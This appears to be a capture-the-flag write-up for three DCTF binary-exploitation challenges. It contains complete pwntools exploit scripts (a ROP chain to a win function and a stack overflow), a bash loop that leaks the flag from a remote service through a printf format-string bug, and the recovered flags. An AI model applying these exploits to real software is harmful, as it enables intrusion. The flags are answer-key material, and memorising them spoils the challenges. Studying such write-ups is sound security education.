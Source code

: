 # ***PWN_SANITY_CHECK***

```py
from pwn import *

binary = context.binary = ELF('./pwn_sanity_check')

if args.REMOTE:
    p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)
else:
    p = process(binary.path)

pop_rdi = next(binary.search(asm('pop rdi; ret')))
pop_rsi_r15 = next(binary.search(asm('pop rsi; pop r15; ret')))

payload  = b''
payload += b'A' * 72
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)
payload += p64(pop_rsi_r15)
payload += p64(0x1337c0de)
payload += p64(0)
payload += p64(binary.sym.win)

p.sendlineafter('joke\n',payload)
p.interactive()
```
FLAG: ``dctf{Ju5t_m0v3_0n}``

# ***PINCH_ME***

```py
from pwn import *

binary = context.binary = ELF('./pinch_me')

if args.REMOTE:
    p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)
else:
    p = process(binary.path)

payload  = b''
payload += b'A' * 24
payload += p64(0x1337c0de)

p.sendlineafter('?\n',payload)
p.interactive()
```
FLAG : ``dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}``

# ***README***

The vuln function reads flag.txt into a local (local_58) stack array.

The vulnerability is the printf(local_38) statement that is missing a format string. Exfiltrating the flag is as simple as passing %nn$p format strings where nn is the position in the stack; starting from 6 just increment until the output starts with dctf (nn = 8), then continue until you have the flag.

```c
for((p=8;p<14;p++)) {
    echo '%'$p'$p' | \
    nc dctf-chall-readme.westeurope.azurecontainer.io 7481 | \
    grep 'hello ' | \
    awk -Fx '{print $NF}' | \
    xxd -r -p | \
    rev
}
```

This bash script will echo %8$p, then echo %9$p, etc... into the challenge service serially (one by one), capturing the output (grep, awk), converting to text (xxd), and then finally reversing the string (rev, since x86_64 is little endian).

```
dctf{n0w_g0_r3ad_s0me_b0rev: stdin: Invalid or incomplete multibyte or wide character
rev: stdin: Invalid or incomplete multibyte or wide character
rev: stdin: Invalid or incomplete multibyte or wide character
```
By guessing the last letters as `0k5`.

FLAG : ```dctf{n0w_g0_r3ad_s0me_b00k5}```
